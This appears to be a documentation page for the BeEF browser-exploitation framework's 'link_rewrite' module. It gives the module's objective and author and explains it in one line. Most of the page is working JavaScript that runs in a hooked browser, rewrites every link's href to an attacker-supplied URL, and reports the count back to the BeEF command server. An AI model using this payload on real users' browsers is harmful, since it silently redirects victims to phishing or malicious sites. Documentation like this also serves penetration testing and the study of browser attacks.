 ## Summary

* **Objective**: Rewrite all links to one URL
* **Authors**: passbe
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/link_rewrite)

## Internal Working

simple replaces all href elements in `<a>` tags

```js

beef.execute(function() {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinks('<%= @url %>')+' links rewritten to <%= @url %>');
});


//rewriteLinks function

rewriteLinks: function(url, selector) {
        var sel = (selector == null) ? 'a' : selector;
        return $j(sel).each(function() {
                if ($j(this).attr('href') != null)
                {
                        $j(this).attr('href', url).click(function() { return true; });
                }
        }).length;
},

```

## Feedback
